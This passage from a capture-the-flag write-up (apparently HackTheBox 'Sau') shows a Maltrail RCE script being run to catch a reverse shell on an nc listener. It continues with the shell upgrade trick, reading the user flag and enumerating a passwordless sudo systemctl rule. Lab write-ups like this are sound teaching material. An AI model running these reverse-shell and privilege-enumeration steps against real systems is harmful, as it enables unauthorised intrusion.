 
Now I’ll run the modified exploit script:

    
    
    oxdf@hacky$ python mailtrack_rce.py 10.10.14.6 443 http://10.10.11.224:55555/jgulua
    Running exploit on http://10.10.11.224:55555/jgulua
    

It hangs, but at a listening `nc` there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.224 46168
    $ id
    uid=1001(puma) gid=1001(puma) groups=1001(puma)
    

I’ll use the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to
upgrade my shell:

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    puma@sau:/opt/maltrail$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    puma@sau:/opt/maltrail$ 
    

I’l grab `user.txt` from the puma user’s home directory:

    
    
    puma@sau:~$ cat user.txt
    4353b8ab************************
    

## Shell as root

### Enumeration

The puma user can run some `systemctl` commands as root without a password
using `sudo`:

    
    
    puma@sau:~$ sudo -l
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    